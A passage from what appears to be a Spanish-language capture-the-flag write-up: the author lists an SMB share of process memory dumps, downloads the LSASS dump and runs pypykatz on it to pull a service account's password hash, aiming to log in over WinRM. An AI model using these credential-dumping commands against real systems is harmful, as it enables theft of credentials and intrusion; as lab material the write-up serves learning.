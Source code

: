> Ipwn3dYourCompany

Sigo buscando y en la carpeta memory_analysis encuentro estos archivos .zip

```bash
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 22:28:33 2020
  ..                                  D        0  Thu May 28 22:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 22:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 22:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 22:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 22:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 22:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 22:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 22:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 22:26:24 2020
  ServerManager.zip                   A 13198331  Thu May 28 22:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 22:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 22:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 22:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 22:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 22:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 22:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 22:27:53 2020

		5102079 blocks of size 4096. 1682559 blocks available
```

> Son archivos .zip de un dumpeo de memoria.

Pero el que más me llama la atencion es el lsas.zip, lsas es el Servicio de Subsistema de Autoridad de Seguridad Local.

Lo descargo ya que en el mismo podríamos encontrar credenciales 

```bash
❯ file lsass.DMP
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
```
Es un archivo Mini DuMP, en este caso lo analizaríamos con Mimikatz ya que es capaz de sacar credenciales de la memoria, pero solo está disponible en Windows asique busqué una alternativa y encontré pypykatz.

`pip3 install pypykatz`

`pypykatz lsa minidump lsass.DMP`

Me reporta mucha información, entre ella el hash del usuario svc_backup con el que compruebo si puedo acceder al sistema a través de Winrm.
